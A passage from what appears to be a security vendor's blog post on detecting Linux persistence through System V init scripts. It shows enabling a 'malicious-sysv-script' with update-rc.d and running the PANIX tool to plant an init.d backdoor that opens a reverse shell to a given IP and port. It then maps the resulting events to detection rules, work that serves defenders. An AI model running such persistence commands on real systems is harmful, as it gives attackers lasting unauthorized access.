 ```
esac
```

The script must be placed in the `/etc/init.d/` directory and be granted execution permissions. Similarly to Systemd services, SysV scripts must also be enabled. A common utility to manage SysV configurations is `update-rc.d`. It allows administrators to enable or disable services and manage the symbolic links (start and kill scripts) in the `/etc/rc*.d/` directories, automatically setting the correct runlevels based on the configuration of the script.

```
sudo update-rc.d malicious-sysv-script defaults
```

The `malicious-sysv-script` is now enabled and ready to run on boot. MITRE specifies more information and real-world examples related to this technique in [T1037](https://attack.mitre.org/techniques/T1037/).

#### Persistence through T1037 - System V init

You can manually set up a test script within the `/etc/init.d/` directory, grant it execution permissions, enable it, and reboot it, or simply use [PANIX](https://github.com/aegrah/PANIX). PANIX is a Linux persistence tool that simplifies and customizes persistence setup for testing your detections. We can use it to establish persistence simply by running:

```
> sudo ./panix.sh --initd --default --ip 192.168.1.1 --port 2006
> [+] init.d backdoor established with IP 192.168.1.1 and port 2006.
```

Prior to rebooting and actually establishing persistence, we can see the following documents being generated in Discover:

![Events generated as a result of System V init persistence establishment](/assets/images/sequel-on-persistence-mechanisms/image14.png "Events generated as a result of System V init persistence establishment")

After executing PANIX, it generates a SysV init script named `/etc/init.d/ssh-procps`, applies executable permissions using `chmod +x`, and utilizes `update-rc.d`. This command triggers `systemctl daemon-reload`, which, in turn, activates the `systemd-sysv-generator` to enable `ssh-procps` during system boot.

Let’s reboot the system and look at the events that are generated on shutdown/boot.

![Events generated as a result of System V init persistence establishment](/assets/images/sequel-on-persistence-mechanisms/image8.png "Events generated as a result of System V init persistence establishment")

As the SysV init system is loaded early, the start command is not logged. Since it is impossible to detect an event before events are being ingested, we need to be creative in detecting this technique. Elastic will capture `already_running` event actions for service initialization events. Through this chain we are capable of detecting the execution of the service, followed by the reverse shell that was initiated. We have several detection opportunities for this persistence technique.

| Category | Coverage                                                     |
|----------|--------------------------------------------------------------|
| File     | [System V Init Script Created](https://github.com/elastic/detection-rules/blob/main/rules/linux/persistence_init_d_file_creation.toml)                                 |
|          | [Suspicious File Creation in /etc for Persistence](https://github.com/elastic/detection-rules/blob/main/rules/linux/persistence_etc_file_creation.toml)             |
|          | [Potential Persistence via File Modification](https://github.com/elastic/detection-rules/blob/main/rules/integrations/fim/persistence_suspicious_file_modifications.toml)                  |
| Process  | [System V Init (init.d) Executed Binary from Unusual Location](https://github.com/elastic/protections-artifacts/blob/main/behavior/rules/linux/persistence_system_v_init_(init.d)_executed_binary_from_unusual_location.toml) |
|          | [Executable Bit Set for Potential Persistence Script](https://github.com/elastic/detection-rules/blob/main/rules/linux/persistence_potential_persistence_script_executable_bit_set.toml)          |
| Network  | [System V Init (init.d) Egress Network Connection](https://github.com/elastic/protections-artifacts/blob/main/behavior/rules/linux/persistence_system_v_init_(init.d)_egress_network_connection.toml)             |
